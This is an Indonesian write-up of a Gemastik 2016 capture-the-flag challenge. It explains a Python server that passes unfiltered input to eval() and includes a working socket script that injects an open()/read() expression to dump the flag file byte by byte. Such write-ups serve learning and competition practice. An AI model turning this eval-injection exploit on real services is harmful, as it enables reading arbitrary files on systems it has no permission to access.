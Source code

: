 ```yaml
---
layout: post
title: "Writeup Gemastik 2016 : Python Server - 100"
description: "Writeup Gemastik 2016 Online Capture The Flag Qualification"
headline: 
modified: 2016-08-15
date: 2016-08-15
category: Pwnable
tags: [gemastik]
imagefeature: /images/gemastik.png
mathjax: 
chart: 
comments: true
featured: false
---
```


### Problem :

![Python Server](/images/python-server.png)


### Solusi :

Di dalam source code yang di berikan ternyata terlihat input yang kita berikan di jalankan di dalam *eval()*

```python
    req.sendall("Dec to Hex Converter - Insert number : ")
    number = req.recv(512)[:-1]
    req.sendall(hex(eval(number)) + "\n")
```

input kita pun tidak di filter dan memungkinkan kita untuk menjalankan expression sesuka kita, di dalam source code juga
ada baris code ini `flag = open('PythonServer.flag').read()` terlihat bahwa flag tersimpan di PythonServer.flag 
kemudian kita gunakan `ord(open('PythonServer.flag').read()[0])` untuk mengambil per index dari file PythonServer.flag
dan mengirimkan dalam bentuk decimal nanti output nya dalam bentuk hex. untuk mempercepat dump flag kami gunakan python.

```python
import socket

s = "target.netsec.gemastik.ui.ac.id"
port = 13338

result = ""
sock = socket.socket()
sock.connect((s, port))

print sock.recv(2048)
print sock.recv(2048)
sock.send("guest\n")
sock.send("guest\n")
x = 0

print sock.recv(2048)

while True:
    print sock.recv(2048)
    sock.send("hex\n")
    print sock.recv(2048)
    sock.send("ord(open('PythonServer.flag').read()["+str(x)+"])\n")
    data = sock.recv(2048)
    if "Please insert number" in data :
        break
    flags = chr(int(data,16))
    result += flags
    print data
    x += 1    
    
print result.rstrip('\n')
```

![Python Server Flag](/images/python-server-flag.png)
